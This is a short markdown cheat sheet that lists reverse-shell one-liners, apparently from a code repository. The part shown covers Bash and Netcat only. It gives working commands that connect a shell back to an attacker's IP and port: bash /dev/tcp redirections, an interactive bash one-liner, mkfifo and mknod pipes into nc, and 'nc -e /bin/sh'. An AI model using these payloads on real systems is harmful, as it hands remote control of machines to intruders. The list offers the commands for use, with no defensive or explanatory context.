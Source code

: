 # **A list of reverse shells for Linux and Windows**

## Bash reverse shells

exec 100<>/dev/tcp/**IP**/**Port** 

cat <&100 | while read line; do $line 2>&100 >&100; done 

Or:

while read line 0<&100; do $line 2>&100 >&100; done

A bash reverse shell one-liner:

bash -i >& /dev/tcp/**IP**/**Port** 0>&1 

## Netcat reverse shell
Using mkfifo:

rm -f /tmp/a; mkfifo /tmp/a; nc **IP Port** 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a 

Or using mknod:

rm -f /tmp/a; mknod /tmp/a p && nc **IP Port** 0</tmp/a | /bin/bash 1>/tmp/a 

Basic one-liner:

nc **IP Port** -e /bin/sh 
